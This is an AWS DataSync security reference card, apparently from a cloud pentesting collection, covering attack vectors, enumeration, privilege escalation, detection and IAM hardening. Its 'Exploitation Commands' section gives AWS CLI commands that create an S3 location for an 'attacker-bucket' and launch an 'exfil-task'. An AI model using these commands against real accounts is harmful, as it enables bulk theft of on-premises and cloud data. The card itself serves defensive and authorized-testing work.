

#  AWS DataSync Security



> **Category**: DATA TRANSFER

AWS DataSync moves large amounts of data between on-premises storage and AWS services. Security risks include task hijacking, destination redirection, and massive data exfiltration.

## Quick Stats

| Risk Level | Scope | Protocols | Throughput |
| --- | --- | --- | --- |
| **HIGH** | **Regional** | **NFS/SMB/S3** | **10 Gbps** |

## Service Overview

### DataSync Agent

Agent deployed on-premises connects to NFS, SMB, HDFS, or object storage. Communicates with AWS over TLS. Agent credentials provide access to configure locations and tasks.

> Attack note: Compromised agent credentials allow enumeration of on-premises storage infrastructure and file paths

### Transfer Tasks

Tasks define source/destination locations and transfer options. Can move terabytes of data with filtering, scheduling, and verification. Runs in VPC or over internet.

> Attack note: Modifying task destination enables massive data exfiltration to attacker-controlled storage

## Security Risk Assessment

`████████░░` **8.0/10** (CRITICAL)

DataSync is designed for bulk data movement - compromised tasks can exfiltrate terabytes of data at high speed. Source locations expose on-premises infrastructure. Agent compromise enables bidirectional data theft.

## ⚔️ Attack Vectors

### Task Manipulation

- Redirect destination to attacker S3
- Create new task for sensitive locations
- Modify filters to include all files
- Schedule recurring exfiltration
- Disable verification checks

### Infrastructure Recon

- Enumerate source locations (NFS/SMB paths)
- Discover on-premises server hostnames
- Map file system structure
- Identify sensitive data paths
- Agent metadata exposure

## ⚠️ Misconfigurations

### IAM Issues

- datasync:* permissions too broad
- Can create tasks with any location
- Cross-account location access
- Missing resource conditions
- Task role with s3:* permissions

### Location Issues

- NFS export allows any host
- SMB credentials in plain text
- S3 bucket allows public write
- No encryption in transit
- Agent in public subnet

## 🔍 Enumeration

**List Agents**
```bash
aws datasync list-agents
```

**Describe Agent**
```bash
aws datasync describe-agent \\
  --agent-arn AGENT_ARN
```

**List Locations**
```bash
aws datasync list-locations
```

**Describe Location (reveals paths)**
```bash
aws datasync describe-location-nfs \\
  --location-arn LOCATION_ARN
```

**List Tasks**
```bash
aws datasync list-tasks
```

## 📈 Privilege Escalation

### Task Role Abuse

- Task IAM role → S3 bucket access
- Task role → Cross-account assume
- Create task with privileged role
- Modify task to use different role
- Role trust policy manipulation

### Escalation Paths

- ListLocations → On-prem paths → Sensitive data
- CreateTask → Custom destination → Exfiltration
- Agent creds → Storage infrastructure → Data access
- Task role → S3/EFS → Application data
- Cross-account → Production data

## 📊 Data Exposure

### Location Details

- On-premises NFS server hostnames
- SMB share paths and credentials
- S3 bucket names and prefixes
- EFS file system IDs
- FSx for Windows paths

### Exfiltration Potential

- Terabytes in single task execution
- 10 Gbps network throughput
- Full file system sync possible
- Incremental changes tracked
- No per-file transfer limits

## 🛡️ Detection

### CloudTrail Events

- CreateTask - new task
- StartTaskExecution - task started
- UpdateTask - task modified
- CreateLocationS3 - new S3 location
- DescribeLocation* - recon activity

### Indicators of Compromise

- New tasks with external destinations
- Location enumeration patterns
- Tasks to unknown S3 buckets
- Unusual transfer volumes
- Agent activation from unknown IPs

## Exploitation Commands

**Create Attacker S3 Location**
```bash
aws datasync create-location-s3 \\
  --s3-bucket-arn arn:aws:s3:::attacker-bucket \\
  --s3-config BucketAccessRoleArn=ROLE_ARN
```

**Create Exfil Task**
```bash
aws datasync create-task \\
  --source-location-arn SOURCE_LOCATION \\
  --destination-location-arn ATTACKER_LOCATION \\
  --name exfil-task
```

**Start Task Execution**
```bash
aws datasync start-task-execution \\
  --task-arn TASK_ARN
```

**Describe Location (get NFS path)**
```bash
aws datasync describe-location-nfs \\
  --location-arn LOCATION_ARN \\
  --query 'LocationUri'
```

**Update Task Options**
```bash
aws datasync update-task \\
  --task-arn TASK_ARN \\
  --options 'TransferMode=ALL,OverwriteMode=ALWAYS'
```

**List Task Executions**
```bash
aws datasync list-task-executions \\
  --task-arn TASK_ARN
```

## Policy Examples

### ❌ Dangerous - Full Access

```json
{
  "Effect": "Allow",
  "Action": "datasync:*",
  "Resource": "*"
}
```

*Full DataSync access - can create tasks to exfil any location*

### ✅ Secure - Read Only Monitoring

```json
{
  "Effect": "Allow",
  "Action": [
    "datasync:ListTasks",
    "datasync:ListTaskExecutions",
    "datasync:DescribeTask"
  ],
  "Resource": "*"
}
```

*Only monitor existing tasks - no creation or modification*

### ❌ Risky - Create Task Permission

```json
{
  "Effect": "Allow",
  "Action": [
    "datasync:CreateTask",
    "datasync:CreateLocation*",
    "datasync:StartTaskExecution"
  ],
  "Resource": "*"
}
```

*Can create tasks with arbitrary destinations - exfiltration risk*

### ✅ Secure - Specific Tasks Only

```json
{
  "Effect": "Allow",
  "Action": "datasync:StartTaskExecution",
  "Resource": "arn:aws:datasync:*:*:task/task-approved-*",
  "Condition": {
    "StringEquals": {"aws:PrincipalTag/team": "backup"}
  }
}
```

*Only start pre-approved tasks by backup team*

## Defense Recommendations

### 🔐 Restrict Task Creation

Use SCP/IAM to prevent CreateTask, CreateLocation* except by approved roles.

```bash
"Effect": "Deny", "Action": "datasync:Create*"
```

### 🛡️ Location Allowlisting

Only allow tasks with pre-approved destination locations.

### 📊 Monitor Transfer Volume

Alert on task executions with unusual data volumes or durations.

### 🔒 VPC Endpoint

Use VPC endpoint to keep DataSync traffic within AWS network.

### 🚫 Deny Cross-Account

Prevent creation of locations pointing to external accounts.

### 📝 CloudTrail Alerting

Alert on CreateTask, CreateLocation*, and StartTaskExecution events.

---

*AWS DataSync Security Card*

*Always obtain proper authorization before testing*
